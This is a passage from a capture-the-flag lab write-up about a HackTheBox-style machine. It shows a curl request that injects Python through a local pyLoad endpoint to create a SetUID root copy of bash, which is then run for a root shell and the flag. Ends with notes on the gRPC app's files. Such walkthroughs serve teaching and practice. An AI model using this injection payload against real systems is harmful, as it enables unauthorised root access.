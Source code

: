 #### Shell

I’ll change the payload from creating a file to making a SetUID / SetGID copy of `bash`:

```

oxdf@hacky$ curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
Could not decrypt key

```

Back in my shell, I’ll run it (with `-p` to not drop privs):

```

sau@pc:~$ /tmp/0xdf -p
0xdf-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)

```

With that I can read `root.txt`:

```

0xdf-5.0# cat root.txt
d88264b0************************

```

## Beyond Root

I thought it would be interesting to see how the GRPC application is set up and configured, and I find it in `/opt`:

```

root@pc:/opt/app# ls
__pycache__  app.proto  app.py  app_pb2.py  app_pb2_grpc.py  middle.py  sqlite.db

```

The GRPC Python module creates the `app_pb2.py` and `app_pb2_grpc.py` files from the `app.proto` file, and then `app.py` uses those to run the service. [This video](https://www.youtube.com/watch?v=c1XGbS4uRlw) has more details: